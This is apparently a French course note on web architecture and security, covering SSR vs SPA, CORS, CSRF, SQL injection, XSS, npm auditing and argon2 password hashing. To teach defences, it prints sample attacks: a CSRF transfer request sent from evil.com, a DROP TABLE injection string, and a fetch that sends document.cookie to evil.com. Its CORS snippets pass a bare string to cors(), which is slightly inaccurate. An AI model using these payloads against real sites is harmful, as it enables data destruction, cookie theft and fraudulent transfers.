


# Sécurité et architecture Client-Serveur

 ---

## Menu du jour

- Architecture :
  - **API/SPA** vs **SSR**
  - découverte de notre mono-dépôt

- Sécurité
  - Faille CSRF (et les CORS)
  - Faille XSS (et les sanitizers)
  - Faille SQL (et l'ORM)

- Slides
  - Résumé
  - Acteurs et ressources
  - Recommandations

- Challenge
  - Register (signup)

## SSR vs API/SPA

Ce qu'on a fait jusqu'à maintenant : une application `monolithique`

`Server-Side Rendering` : le serveur compile les données avec les vues et les envoie au client pour affichage.

Idée: calculer la page HTML côté serveur et l'envoyer au client.

**Avantages :**

- **Simplicité** : Un seul serveur applicatif à gérer.
- **Rapide** : 1 seul appel HTTP pour charger le contenu ( contre au moins 2 requêtes avec l'autre architecture )
- **Référencement** : Niveau SEO (Search Engine Optimization), les pages renvoyées par le serveur sont complètes (HTML structuré avec du contenu) -> les robots d'indexation peuvent lire notre site facilement et rapidement.



### API / SPA

Idée : renvoyer un page unique (SPA => Single Page Application), une coquille vide, capable d'aller chercher des données en communiquant avec une API, et en mettant à jour la vue en fonction des données qu'elle reçoit.
Quand on charge une page d'une SPA, **en réalité on ne change pas de page, on vire toutes les éléments HTML, et on les remplace par d'autres**

On découple le serveur de données et le front pour en faire deux application séparées.

**Avantages :**

- **SoC** : Separation of Concerns (Séparation des responsabilités)
- **Dynamisme**: lorsqu'on manipule les pages de l'application, il n'y a pas de rechargement de la page dans le sens ou le serveur nous renvoie une nouvelle page.
Le JS front repeint la page en fonction des données JSON qu'il reçoit.

**Inconvénients :** Le référencement est moins bon qu'avec le SSR, car les robots ne lisent pas le contenu aussi facilement (tous les robots d'indexation ne sont pas capables de lire le JS)

- **(Moins) Rapide** : plusieurs appels HTTP pour charge tous les contenus.



---

## AJAX & Fetch

- **AJAX :** Asynchronous JavaScript and XML, c'est une technique qui permet à JavaScript de faire des requêtes seul. Cette technique permet de demander des données à un serveur dans le but de modifier seulement une partie des pages web. Jadis, on utilisait l'objet `XMLHttpRequest`. <https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest>

- **fetch :** C'est la méthode moderne pour faire des requêtes AJAX. c'est une promesse.

Le but de cette technique est de rendre les pages web plus dynamiques.

### SOP & CORS

- **SOP :** Same Origin Policy
- **CORS :** Cross-Origin Resource Sharing

## Installation de l'application et récap

- Quand on démarre l'appli, le front n'affiche rien
  - On a mis en place la fonction `httpRequest` dans les services `lists` et `cards` du front.
  - On a mis en place les CORS sur l'api, si on ne met pas les cors, les requêtes ajax sont bloqués par défaut.
  - On s'est assuré que le front n'est pas vulnérable aux attaques `XSS` en évitant `innerHTML` ou équivalent.
  - On a ajouté le module `express-xss-sanitizer` afin de ne pas permettre aux balises script de rentrer en BDD.

---

>**Attention, on ne dit pas crypter, mais chiffrer**

## KISS

**KISS** = **Keep It Simple Stupide**

- on reste simple quand on peut faire simple ?
- on évite l'overengineering

## Note a propos de ce dépôt

- Gestionnaire de package : **NPM**

Note sur la route expanded :

- `GET /lists/expanded`  <====> `GET /lists?include=cards`

On ne repart pas ici du même code API que la semaine dernière MAIS :

- très similiare
- mis au propre
- même "API", ie. même endpoints === même routes

BDD :

- user : `okanban`
- mdp : `okanban`
- bdd : `okanban`

## SOP & CORS

**SOP** = Same Origin Policy

**CORS** = Cross-Origin Resource Sharing

----

Imaginez vous avez un banque en ligne :

- `http://ma-banque.fr`

Imaginez vous recevez un mail de fishing qui vous propose de consulter vos comptes sur votre banque, mais vous ne regardez pas l'URL

- `http://evil.com`

Attaque 1 : `evil.com` requête la page HTML de `ma-banque.fr` afin d'afficher le formulaire de connexion dans une `iframe` ==> le site attaquant est blindé de listener pour écouter nos mots de passe.

Attaque 2 : je suis connecté sur le site de `ma-banque.fr` et je clique sur `evil.com`, qui intègre le code suivant :

```js
// evil.com, ce code automatiquement s'exécute lorsque j'ouvre le site
fetch("https://bank.com/api/account/transfert-to/33", { // 33 = l'id de l'attaquant
  method: "POST",
  credentials: "include",
  body: JSON.stringify({ euro: 1000 })
});
```

Ce type d'attaque s'appelle une `CSRF` = **Cross-Site Request Forgery** = un autre domaine fait une requête à ta place. Ce type d'attaque intervient quand les requêtes entre deux domaines sont autorisés.

Problématique : si les requêtes cross-domains sont autorisés, on est sensible à ce genre d'attaque

Solution :

- **par défaut, les navigateurs bloquent les requêtes entre deux domaines différents** : c'est la politique **SOP**.
- pourquoi ? pour éviter qu'un **domaine A** se fasse passer pour un **domaine B**

Problématique qui s'en suit :

- mais alors comment mon code front (`localhost:5173`) peut contacter mon API (`localhost:3000`) alors qu'ils ne sont pas sur le même domaine ?
- grâce à un assouplissement de la politique SOP, qu'on appelle les requête `CORS` = **Cross-Origin Ressource Sharing** (= partage de ressources entre deux origines distinctes)

CORS = assouplissment de la politique SOP

### Comment mettre en place les CORS (entre notre front et notre back) ?

- Il faut ajouter un header `Access-Control-Allow-Origin` dans les réponses de l'API ==> pour autoriser le domaine du front

```bash
npm install cors
```

```js
import cors from "cors";

app.use(cors("*")); // Autoriser tous les domaines

app.use(cors("http://mon-front.com")) // Autorise uniquement "mon-front.com"

app.use(cors(["...", "..."]));        // Autoriser plusieurs domaines

// Le middleware doit être mis avant le retour pour s'assurer que le front a le droit
```

==> **Bilan : le backend doit autoriser le frontend à le contacter via un assouplissement de la politique SOP grâce aux CORS**.

## Injection SQL

Idée : profiter d'une vulnérabilité au niveau d'une requête SQL pour injecter une commande dont la vocation est de :

- voler des informations
- détruire des informations

```js
// ====== MAUVAIS CODE =====
await sequelize.query(`UPDATE list SET title = '${data.title}' WHERE id = ${id}`);
//                     UPDATE list SET title 'Chose à faire' WHERE id = 3;
// ✅ Alice est sympa

// ====== MAUVAIS CODE =====
await sequelize.query(`UPDATE list SET title = '${data.title}' WHERE id = ${id}`);
//                     UPDATE list SET title = '     toto'; DROP TABLE list CASCADE; --       ' WHERE id = ${id}
// ❌ Dark Alice a cassé notre base de données

// ===== RÉPARER LA FAILLE ======
// 1. Utiliser les requêtes paramétrées
await sequelize.query(`UPDATE list SET title = $1 WHERE id = $2`, [data.title, id]); // ✅ OK mais dommage, on a un ORM profitons en

// 2. Utiliser directement l'ORM plutôt que de faire les requêtes SQL à la main
await list.update({ title: data.title }); // ✅ Utiliser l'ORM
```

**On est protégé contre les injections SQL grâce à l'utilisation d'un ORM, mais à une condition** :

- **s'assurer qu'il soit à jour**

Ex : le code de Sequelize est géré par d'autres devs, qui peuvent faire des erreurs et introduire des failles.

## Vérifier les versions de packages installés

Ca se passe dans le `package.json`

```js
"sequelize": "^6.37.7"

               6 = VERSION MAJEUR

                 37 = AMÉLIORATIONS MINEURS

                    7 = PATCH
```

Comment auditer nos versions de packages NPM ?

- audit automatique lors du `npm install` -> on nous indique si un package est vulnérable
- `npm audit` : réalise un audit
- `npm audit fix` : réalise un audit et modifie le `package-lock.json` pour changer la version du package à installé avec un correctif

## Injection XSS

**XSS** = **Cross-site scripting**

Idée : un attaquant (BOB) injecte dans la base de données du code HTML. Lorsque ce code HTML revient côté client chez la victime (ALICE) alors il s'exécute pouvant ensuite entrainé : des vols de cookies, des actions faites à la place de l'utilisateur, etc...

Exemple :

- l'interface à un input type text
- BOB : insère ``
- cette chaine se retrouve en BDD
- ALICE : charge la page du kanban
- le titre de la liste s'affiche : ````
- si ce titre est interprété comme du HTML, ça s'exécute

Ici :

- `alert()` pas très dangereux

Mais on pourrait avoir :

- `fetch("http://evil.com", { method: "POST", body: JSON.stringify(document.cookie); })`

### Comment se prémunir de cette faille ?

Côté backend :

- **NEVER TRUST USER INPUT**
  - on a nos validateurs (c'est déjà pas mal)
  - il faudrait qu'ils traitent également les chaines de caractères pour rejeter les balises par exemple (ou toute injection xss)

Côté frontend :

- **Éviter d'interpréter comme du HTML des champs dynamique**
  - ex : éviter les `{@html VARIABLE}` en Svelte quand on ne contrôle pas ce qu'il y a dans la variable (input utilisateur)
  - ex : éviter `ELEMENT.innerHTML = VARIABLE;`

### Exemple

```js
import { xss } from "express-xss-sanitizer";

// Body parser
app.use(express.json());

// Body sanitizer anti-XSS
app.use(xss());
```

## Grands principes en sécurité

- **Intégrité** : s'assurer que le message n'a pas été alteré

[En savoir plus sur HTTPS sous format bande dessiné](https://howhttps.works/)

Ex :

- **HTTPS** = HTTP + Sécurisé = permet d'assurer :
  - l'**intégrité** : on sait que le message reçu n'a pas été modifé
  - la **confidentialité** : le message envoyé ne peut pas être lu
  - l'**authenticité** : on sait que le message provient bien de la personne

- **Privilège minimum** : s'assurer que chaque rôle ne possède les permissions qui lui sont strictement necessaire
  - ex : par défaut, l'ajout de liste dans okanban n'est pas accessible sans être authentifié.

- **Defense in depth** : la sécurité peut-être sur plusieurs couches
  - ex : validation sur la couche BDD : `email` unique validé par le SGBD (`UNIQUE` SQL)
  - ex : validation sur la couche API : code pour aller vérifier si le mail n'est pas déjà présent en base

- **Loi de Murphy** : tout ce qui est susceptible d'aller mal ira mal
  - ex : on considère que l'utilisateur n'est pas digne de confiance et donc ajouter des mécaniques de validation etc...

## Acteurs

- **CNIL** = Commision Nationale Informatique et Liberté
  - gère les recommandations en matière de [RGPD](https://gist.github.com/enzoclock/473e01207cdf9cdf478a7e087b31a49c)
  - recommendations en terme de [cybersécurité](https://www.cnil.fr/fr/technologies/cybersecurite)
- **ANSSI** = Agence Nationale de la Sécurisé des Système d'Information
  - ex : [de recommandations](https://cyber.gouv.fr/sites/default/files/2013/05/anssi-guide-recommandations_mise_en_oeuvre_site_web_maitriser_standards_securite_cote_navigateur-v2.0.pdf)
  - opère le **CERT-FR** (Computer Emergency Response Team) qui effectue de la veille sécurité du web et publie régulièrement des recommandations et alertes
    - ex : <https://www.cert.ssi.gouv.fr/>
- **OWASP** = Open Web Application Security Project (organisation à but non lucratif)
  - ex : [Top 10 vulnerabilities](https://owasp.org/Top10/fr/)

## Register - Créer un compte


Vocabulaire :

- **CHIFFRER** = double sens : ce qui est chiffré peut être déchiffré (via une clef de déchiffrement)
  - ex : HTTPS est un protocol chiffré
- **HACHAGE** = sens unique : ce qui est haché ne peut être dé-haché !
  - ex : les MDP sont hachés afin qu'un attaquant ayant accès à la BDD ne puisse pas connaitre le mdp d'un utilisateur

Algorithmes de hachage courants et recommandés par OWASP

- [argon2](https://www.npmjs.com/package/argon2)
- [bcrypt](https://www.npmjs.com/package/bcrypt)
- [scrypt](https://nodejs.org/api/crypto.html#cryptoscryptpassword-salt-keylen-options-callback)

### Notion de SEL dans le MDP haché

```
==== ALICE ====
MDP : SagradaFamili4!

Argon2 :
SagradaFamili4! + ZGNqeTNtbjZlYjAwMDAwMA (généré automatiquement)
===> HASH suivant : wUoqRJXGlY1XeCBKh96DFA
===> On stock : $argon2d$v=19$m=12,t=3,p=1$ZGNqeTNtbjZlYjAwMDAwMA$wUoqRJXGlY1XeCBKh96DFA


==== BOB ====
MDP : SagradaFamili4!
Argon2 :
SagradaFamili4! + am40ejZ6YTB1cmowMDAwMA
==> HASH suivant : s+IeDHYngsqaqLQiYpt2aQ
==> On stock : $argon2d$v=19$m=12,t=3,p=1$am40ejZ6YTB1cmowMDAwMA$s+IeDHYngsqaqLQiYpt2aQ
```

Bilan : les deux hashs sont différents alors que le MDP est le même : on évite ainsi les attaques statistiques sur une BDD exposée (exemple : 50 000 utilisateurs ont le même hash ?? -> ils ont probablement tous mis le mdp `"password"`)

**Faites très attention lors du Titre Pro à votre vocabulaire** :

- ✅ Chiffrer/Déchiffrement/Chiffrement
- ✅ Hachage/Hash
- ❌ Crypter/Encrypter/Encoder/Décrypter

Comment argon2 vérifie un mot de passe ? En le hachant de nouveau :

```
===== LOGIN =====

Fourni :
- username = Alice
- mdp = SagradaFamili4!

BDD :
- username = Alice
- mdp haché = $argon2d$v=19$m=12,t=3,p=1$ZGNqeTNtbjZlYjAwMDAwMA$wUoqRJXGlY1XeCBKh96DFA

Opération de validation :
argon2.verify(SagradaFamili4!, $argon2d$v=19$m=12,t=3,p=1$ZGNqeTNtbjZlYjAwMDAwMA$wUoqRJXGlY1XeCBKh96DFA);
```

## Différence entre http et https

### http

Le mode par défaut du web, on peut espionner et récupérer les infos qui transitent entre serveurs et clients.

### https

Les requêtes sont chiffrées, on ne peut pas intercepter les données qui transitent entre serveurs et clients.

<https://chiffrer.info/>
